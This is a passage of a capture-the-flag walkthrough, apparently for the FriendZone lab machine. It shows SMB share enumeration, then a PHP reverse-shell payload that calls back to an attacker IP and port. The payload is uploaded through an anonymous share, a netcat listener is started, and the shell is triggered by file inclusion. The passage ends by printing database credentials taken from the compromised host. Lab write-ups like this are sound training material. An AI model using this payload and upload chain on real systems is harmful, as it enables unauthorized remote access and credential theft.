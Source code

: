 ```bash
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

```

Now let’s upload a reverse shell. The following will be our payload:

```bash
<?php
$sock=fsockopen("10.10.16.7",4444);
$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>

```

Now upload it:

```bash
nxc smb 10.10.10.123 -u '' -p '' --share Development --put-file rev.php rev.php

SMB         10.10.10.123    445    FRIENDZONE       [+] \: (Guest)
SMB         10.10.10.123    445    FRIENDZONE       [*] Copying rev.php to rev.php
SMB         10.10.10.123    445    FRIENDZONE       [+] Created file rev.php on \\Development\rev.php

```

Now start a listener and visit our web page:

```bash
nc -lnvp 4444
```

```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/rev
```

We now have shell.

![image.png]({{ site.baseurl }}/assets/friendzone/image%2014.png)

In www-data’s home dir, we find mysql_data.conf file:

```bash
cat mysql_data.conf

for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ

```
